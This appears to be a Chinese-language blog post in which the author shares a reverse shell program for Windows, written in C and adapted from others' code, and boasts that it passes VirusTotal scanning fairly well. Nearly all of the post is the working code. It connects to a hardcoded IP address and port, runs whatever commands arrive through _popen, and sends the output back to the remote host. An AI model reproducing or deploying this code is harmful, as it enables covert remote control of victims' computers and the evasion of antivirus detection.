

#### 关于我随手写了个反弹shell脚本，VT通过率还不差这件事

好吧是拿别人代码修改成的

```c
#include <WINSOCK2.H>   
#include <stdio.h>     


//定义程序中使用的常量      
#define SERVER_ADDRESS "192.168.8.232" //服务器端IP地址      
#define PORT           4444         //服务器的端口号      
#define MSGSIZE        1024         //收发缓冲区的大小      
#pragma comment(lib, "ws2_32.lib")      

void sysexecute(char* command);

int main()
{
    WSADATA wsaData;
    //连接所用套节字      
    SOCKET sClient;
    //保存远程服务器的地址信息      
    SOCKADDR_IN server;
    //收发缓冲区      
    char szMessage[MSGSIZE];
    //成功接收字节的个数      
    int ret;

    // Initialize Windows socket library      
    WSAStartup(0x0202, &wsaData);

    // 创建客户端套节字      
    sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); //AF_INET指明使用TCP/IP协议族；      
	//SOCK_STREAM, IPPROTO_TCP具体指明使用TCP协议      
    // 指明远程服务器的地址信息(端口号、IP地址等)      
    memset(&server, 0, sizeof(SOCKADDR_IN)); //先将保存地址的server置为全0      
    server.sin_family = PF_INET; //声明地址格式是TCP/IP地址格式      
    server.sin_port = htons(PORT); //指明连接服务器的端口号，htons()用于 converts values between the host and network byte order      
    server.sin_addr.s_addr = inet_addr(SERVER_ADDRESS); //指明连接服务器的IP地址      
	//结构SOCKADDR_IN的sin_addr字段用于保存IP地址，sin_addr字段也是一个结构体，sin_addr.s_addr用于最终保存IP地址      
	//inet_addr()用于将 形如的"127.0.0.1"字符串转换为IP地址格式      
    //连到刚才指明的服务器上      
    connect(sClient, (struct sockaddr*)&server, sizeof(SOCKADDR_IN)); //连接后可以用sClient来使用这个连接      
        

    while (TRUE) {
        ret = recv(sClient, szMessage, MSGSIZE, 0);
        szMessage[ret] = '\0';

        FILE* stream;
        FILE* wstream;
        char   buf[1024]; //存储返回结果

        const char* box = new char[1024];
        //char box[1024];
        box = "ping www.baidu.com\n";

        memset(buf, '\0', sizeof(buf));//初始化buf
        stream = _popen(szMessage, "r");
        //将“curl ”命令的输出 通过管道读取（“r”参数）到FILE* stream
        fread(buf, sizeof(char), sizeof(buf), stream);  //将刚刚FILE* stream的数据流读取到buf中

        //printf("buf=%s\n-----------------------------------------\n", buf);

        buf[strlen(buf)] = '\n';
        send(sClient, buf, strlen(buf), 0);
        _pclose(stream);
    }

    // 释放连接和进行结束工作      
    closesocket(sClient);
    WSACleanup();
    return 0;
}
```




